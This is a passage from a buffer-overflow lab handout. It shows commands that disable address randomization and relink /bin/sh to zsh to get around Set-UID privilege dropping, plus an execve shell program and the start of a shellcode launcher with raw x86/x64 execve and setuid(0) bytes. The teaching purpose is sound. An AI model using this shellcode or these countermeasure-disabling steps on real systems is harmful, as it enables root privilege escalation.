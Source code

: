 ```console
$ sudo sysctl -w kernel.randomize_va_space=0
```

The <code>dash</code> program, as well as <code>bash</code>, has implemented a security countermeasure that prevents itself from being executed in a Set-UID process[^2]. Basically, if they detect that they are executed in a Set-UID process, they will immediately change the effective user ID to the process's real user ID, essentially dropping the privilege. The following command can be used to link <code>/bin/sh</code> to <code>zsh</code> which does not have such a countermeasure:

```console
$ sudo ln -sf /bin/zsh /bin/sh
```

## Task 1: Getting Familiar with Shellcode

The following C program executes a shell program (<code>/bin/sh</code>) using the <code>execve()</code> system call:

```c
#include <stddef.h>
void main()
{
    char *name[2];
    name[0] = "/bin/sh";
    name[1] = NULL;
    execve(name[0], name, NULL);
}
```

A naive thought is to compile the above code into binary, and then save it to the input file, e.g., <code>badfile</code>. Then we set the targeted return address field to the address of the <code>main()</code> function, so when the vulnerable program returns, it jumps to the entrance of the above code. Unfortunately, this does not work for several reasons:

- **The loader issue**: Before a normal program runs, it needs to be loaded into memory and its running environment needs to be set up. These jobs are conducted by the OS loader, which is responsible for setting up the memory (such as stack and heap), copying the program into memory, invoking the dynamic linker to the needed library functions, etc. After all the initialization is done, the <code>main()</code> function will be triggered. If any of the steps is missing, the program will not be able to run correctly. In a buffer overflow attack, the malicious code is not loaded by the OS; it is loaded directly via memory copy. Therefore, all the essential initialization steps are missing; even if we can jump to the <code>main()</code> function, we will not be able to get the shell program to run.

- **Zeros in the code**: String copying will stop when a zero is found in the source string. When we compile the above C code into binary, at least three zeros will exist in the binary code.

### Invoking the shellcode

```c
/* call_shellcode.c */
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

// Binary code for setuid(0) 
// 64-bit:  "\x48\x31\xff\x48\x31\xc0\xb0\x69\x0f\x05"
// 32-bit:  "\x31\xdb\x31\xc0\xb0\xd5\xcd\x80"


const char shellcode[] =
#if __x86_64__
  "\x48\x31\xd2\x52\x48\xb8\x2f\x62\x69\x6e"
  "\x2f\x2f\x73\x68\x50\x48\x89\xe7\x52\x57"
  "\x48\x89\xe6\x48\x31\xc0\xb0\x3b\x0f\x05"
#else
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
```

[^1]: From Daniel P. Bovet and Marco Cesati, *Understanding the Linux Kernel, Third Edition*, O'Reilly, 2006.
[^2]: A privileged program is one that can give users extra privileges beyond that are already assigned to them. A Set-Root-UID program is a privileged program because it allows users to gain the root privilege during the execution of the programs. For Set-UID programs in UNIX and UNIX-like operating systems, which stands for **set user ID on execution**, the effective <code>uid</code> is the owner of the program, while the real <code>uid</code> is the user of the program. Windows does not have the notion of Set-UID. A different mechanism is used for implementing privileged functionality. A developer would write a privileged program as a service and the user sends the command line arguments to the service using Local Procedure Call.
[^3]: Continue to the next source line in the current (innermost) stack frame. This is similar to <code>step</code>, but function calls that appear within the line of code are executed without stopping. Execution stops when control reaches a different line of code at the original stack level that was executing when you gave the <code>next</code> command.